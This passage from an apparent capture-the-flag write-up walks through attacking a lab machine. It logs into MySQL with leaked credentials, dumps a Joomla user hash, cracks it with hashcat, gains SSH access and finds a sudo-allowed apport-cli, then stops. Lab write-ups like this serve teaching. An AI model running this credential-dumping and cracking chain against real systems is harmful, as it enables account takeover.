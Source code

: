 ```shell
```

Lets access mysql using the credentials of lewis:

```shell
mysql -u lewis -p
# Enter password: P4ntherg0t1n5r3c0n##
```

Using the following query commands in the mysql console we will be able to find the hash of the user logan:

```shell
show databases;
use joomla;
show tables;
select * from sd4fg_users;
```

Now we got the hash of the user logan:

```shell
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj1
```

Lets try to crack it:

```shell
# Note: Looking at the start of the hash $2y$ I know from past CTFs that this is a bcrypt hash and that it has -m 3200 on hashcat, but you can use hashcat -h | grep $2 to search for the mode
echo '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12' > logan_hash.txt
hashcat -m 3200 logan_hash.txt /usr/share/wordlists/rockyou.txt
```

We were able to crack the hash successfully, giving us the following credentials:
```shell
logan:tequieromucho
```

Now we can get access using SSH:

```shell
ssh logan@10.129.133.100
```

### User Flag
Now we can get the user.txt flag:

```shell
cat /home/logan/user.txt
```

# Privilege Escalation
### CVE-2023-1326 apport-cli
If we use sudo -l, we will get the following output:

```shell
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```
